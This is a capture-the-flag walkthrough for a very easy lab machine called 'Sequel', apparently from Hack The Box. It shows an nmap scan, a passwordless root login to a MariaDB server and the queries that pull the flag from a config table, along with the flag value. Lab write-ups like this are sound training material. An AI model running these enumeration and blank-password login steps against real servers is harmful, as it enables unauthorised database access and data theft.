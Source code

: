 # CTF Walkthrough: Sequel

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** MySQL        
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.20.114`
        - Output:
            ```
            PORT     STATE SERVICE VERSION
            3306/tcp open  mysql?
            | mysql-info:
            |   Protocol: 10
            |   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
            |   Thread ID: 107
            |   Capabilities flags: 63486
            |   Some Capabilities: ConnectWithDatabase, Support41Auth, SupportsTransactions, SupportsCompression, InteractiveClient, Speaks41ProtocolOld, SupportsLoadDataLocal, LongColumnFlag, FoundRows, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, ODBCClient, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
            |   Status: Autocommit
            |   Salt: y'P>%=D}iv6HIr$XrS+v
            |_  Auth Plugin Name: mysql_native_password
            ```

2. Log in to MySQL as root
    - Command: `mysql -u root -h 10.129.20.114 --skip-ssl`


3. In MySQL
    - Show all available databases
        - Command: `show databases;`
            - Output:
                ```
                +--------------------+
                | Database           |
                +--------------------+
                | htb                |
                | information_schema |
                | mysql              |
                | performance_schema |
                +--------------------+
                ```
    - Select htb database
        - Command: `use htb;`
            
    - Show all tables
        - Command: `show tables;`
            - Output:
                ```
                +---------------+
                | Tables_in_htb |
                +---------------+
                | config        |
                | users         |
                +---------------+
                ```
    - Describe config table
        - Command: `describe config;`
            - Output:
                ```
                +-------+---------------------+------+-----+---------+----------------+
                | Field | Type                | Null | Key | Default | Extra          |
                +-------+---------------------+------+-----+---------+----------------+
                | id    | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
                | name  | text                | YES  |     | NULL    |                |
                | value | text                | YES  |     | NULL    |                |
                +-------+---------------------+------+-----+---------+----------------+
                ```
    - Show contents of config table
        - Command: `select * from config;`
            - Output:
                ```
                +----+-----------------------+----------------------------------+
                |  1 | timeout               | 60s                              |
                |  2 | security              | default                          |
                |  3 | auto_logon            | false                            |
                |  4 | max_size              | 2M                               |
                |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
                |  6 | enable_uploads        | false                            |
                |  7 | authentication_method | radius                           |
                +----+-----------------------+----------------------------------+
                ```

4. Get Flag
    - Flag : 7b4bec00d1a39e3dd4e021ec3d915da8

